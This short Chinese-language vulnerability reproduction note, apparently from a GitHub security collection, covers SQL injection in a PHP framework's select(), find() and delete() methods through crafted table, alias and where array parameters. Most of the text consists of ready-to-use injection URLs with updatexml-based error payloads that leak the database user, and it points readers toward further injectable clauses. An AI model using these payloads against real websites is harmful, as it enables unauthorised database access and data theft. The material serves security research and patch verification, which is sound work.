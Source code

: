 ### 漏洞复现

针对`select()` 和`find()`方法 ,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

```
table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)-- 
```

![image](img/801dc85a4afc7119fca0c12d2709ab51.png)

而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

```
where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

table: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1 
```

![image](img/d1cfc5c52ce13312a046a1127bdae35b.png)

## 参考链接

> [https://xz.aliyun.com/t/2629#toc-1](https://xz.aliyun.com/t/2629#toc-1)

